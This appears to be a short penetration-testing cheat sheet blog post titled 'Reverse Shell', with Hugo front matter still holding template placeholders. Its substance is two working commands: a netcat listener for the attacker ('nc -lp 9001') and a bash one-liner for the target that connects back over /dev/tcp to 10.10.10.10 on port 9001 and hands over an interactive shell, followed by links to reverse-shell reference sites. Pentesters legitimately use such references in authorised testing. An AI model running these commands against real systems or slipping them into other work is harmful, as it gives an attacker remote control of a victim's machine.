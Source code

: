 ```yaml
---
title: Reverse Shell
date: 2022-10-18T11:30:30.000+00:00
tags:
- pentest
categories:
- cheatsheet
author: Me
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: Desc Text.
disableHLJS: false
disableShare: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
  image: "<image path/url>"
  alt: "<alt text>"
  caption: "<text>"
  relative: false
  hidden: true

---
```

## Start a listener on attacker:
```
    nc -lp 9001
    # ip=10.10.10.10
    # port=9001
```

## Run a shell on target:

* bash
```
    bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

## References

* https://www.revshells.com/
* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet